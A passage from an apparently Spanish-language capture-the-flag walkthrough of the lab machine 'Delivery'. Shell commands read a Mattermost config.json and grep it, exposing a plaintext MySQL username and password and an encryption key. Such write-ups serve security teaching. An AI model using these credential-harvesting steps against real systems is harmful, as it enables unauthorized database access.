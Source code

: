Este puede contener información valiosa de la base de datos (como los hashes que buscamos), vayamos a verla:
```bash
maildeliverer@Delivery:~$ cd /opt/mattermost
maildeliverer@Delivery:/opt/mattermost$ ls
bin     config  ENTERPRISE-EDITION-LICENSE.txt  i18n  manifest.txt  plugins              README.md
client  data    fonts                           logs  NOTICE.txt    prepackaged_plugins  templates
maildeliverer@Delivery:/opt/mattermost$ cd config/
maildeliverer@Delivery:/opt/mattermost/config$ ls
cloud_defaults.json  config.json  README.md
```

Veamos el interior:
```json
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json 
{
    "ServiceSettings": {
        "SiteURL": "",
        "WebsocketURL": "",
        "LicenseFileLocation": "",
        "ListenAddress": ":8065",
        "ConnectionSecurity": "",
        "TLSCertFile": "",
        "TLSKeyFile": "",
        "TLSMinVer": "1.2",
        "TLSStrictTransport": false,
...
```

Contiene bastante información, si usamos **grep** buscando las palabras **sql** o **mysql**, nos dará un resultado más acertado de donde buscar:
```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep sql
        "DriverName": "mysql",
```

Y buscando eso, encontramos algo importante y crítico:
```json
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
```
